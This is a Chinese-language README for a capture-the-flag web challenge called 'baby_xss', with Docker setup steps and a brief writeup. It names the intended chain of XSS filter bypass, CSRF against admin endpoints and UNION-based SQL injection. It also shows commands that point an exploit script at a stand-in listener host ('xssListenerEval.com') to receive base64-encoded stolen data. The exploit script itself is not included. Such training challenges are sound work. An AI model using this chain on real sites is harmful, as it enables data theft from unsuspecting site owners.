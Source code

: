 # 赛题说明

## 题目信息：

- 题目名称：baby_xss
- 预估难度：中等偏难 （简单/中等偏易/中等偏难/困难）
- 题目描述：baby_xss?

### 题目考点：

```
1. XSS绕过
2. XSS读文件
3. SQL注入-union注入
```

### 思路简述：

XSS读取后台内容，配合csrf，打后台接口，进行sql注入，从而拿到数据库中的flag





## 镜像编译与启动

```bash
# 修改flag
sed -i "s/flag{123456}/flag{新的flag}/g" test.sql

# 启动
docker build  -t 5am3_challenges/baby_xss:v1.0 .
docker run -d -p 8233:80 -t 5am3_challenges/baby_xss:v1.0
```



## WriteUp

懒得写，直接给exp了。

```bash
sed -i "s/xssListenerEval.com/你的XSS监听地址（ip+端口即可）/g" exp.py
# 第二个参数必须写域名（IP）+端口
python exp.py auto timu.com:80
# 然后就在XSS监听地址能接到回显
# 此时可以手动解密，也可以用exp直接解密。
python exp.py decode 收到的base64

```



[![asciicast](https://asciinema.org/a/bT2ABx3kRg4AHoNgD7iA44PWJ.svg)](https://asciinema.org/a/bT2ABx3kRg4AHoNgD7iA44PWJ)









